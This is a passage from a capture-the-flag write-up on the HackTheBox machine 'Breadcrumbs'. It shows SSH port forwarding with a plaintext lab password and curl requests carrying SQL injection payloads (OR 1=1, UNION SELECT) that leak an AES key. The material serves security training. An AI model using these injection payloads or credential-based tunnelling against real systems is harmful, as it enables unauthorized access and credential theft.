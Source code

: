 open in ghidra, This binary connecting to local server on port 1234 and retrieving admin user password.

![](/assets/img/posts/breadcrumbs/elf-ghidra.png)

If we check the netstat on windows, there is a port 1234 
```bash
TCP    127.0.0.1:1234         0.0.0.0:0              LISTENING
```

Forwarding port with ssh and sending same request with curl gives the admin password
```bash
❯ sshpass -p 'fN3)sN5Ee@g' ssh development@breadcrumbs.htb -N -L 1234:127.0.0.1:1234 -f
❯ curl 'http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords'
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```

## sql injection

After test url parameters, Found sql injection in "username" parameter.
```bash
❯ curl "http://127.0.0.1:1234/index.php?method=select&username=administrator'+OR+1=1+--+-&table=passwords"
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```

Testing union injection.
```bash
❯ curl "http://127.0.0.1:1234/index.php?method=select&username=administrator'+union+select+1--+-&table=passwords"
selectarray(2) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(1) "1"
  }
}
```
